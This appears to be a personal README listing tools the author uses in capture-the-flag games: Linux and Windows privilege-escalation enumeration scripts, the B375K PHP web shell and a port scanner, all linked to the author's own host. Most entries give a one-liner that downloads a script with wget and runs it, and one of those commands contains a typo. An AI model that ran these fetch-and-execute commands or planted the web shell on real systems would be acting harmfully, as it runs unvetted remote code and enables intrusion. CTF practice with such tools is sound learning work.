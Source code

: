 # tools

My most used tools for CTF:

# Linpeas
Linpeas is an automated tool for Linux enumaration.
> [linpeas.sh](https://tools.ntaheij.dev/linpeas.sh)
```sh
wget "https://tools.ntaheij.dev/linpeas.sh" -O linpeas.sh; chmod 700 linpeas.sh; ./linpeas.sh
```

# Winpeas
Winpeas is an automated tool for Windows enumaration.
> [winpeas.bat](https://tools.ntaheij.dev/winpeas.bat)

> [winpeas.exe](https://tools.ntaheij.dev/winpeas.exe)

# Linenum
Linenum is an automated tool for Linux enumaration.
> [linenum.sh](https://tools.ntaheij.dev/linenum.sh)
```sh
wget "https://tools.ntaheij.dev/linenum.sh" -O linenum.sh; chmod 700 linenum.sh; ./linenum.sh
```

# Linux Smart Enumaration
Linux Smart Enumaration is an automated tool for Linux enumaration.
> [lse.sh](https://tools.ntaheij.dev/lse.sh)
```sh
wget "https://tools.ntaheij.dev/lse.sh" -O lse.sh; chmod 700 lse.sh; ./lse.sh
```

# B375K
B375K is a multi-purpose php reverse shell.
> [b375k.php](https://tools.ntaheij.dev/b375k.php)
```sh
wget "https://tools.ntaheij.dev/b375k.php" -O b375k.php
```

# Scanner
Scanner is a tool to scan your network for computers with open ports.
> [scanner.py](https://tools.ntaheij.dev/scanner.py)
```sh
wget "https://tools.ntaheij.dev/scanner.py" -O scanner.py; chmod 700 scannerpy; ./scanner.py
```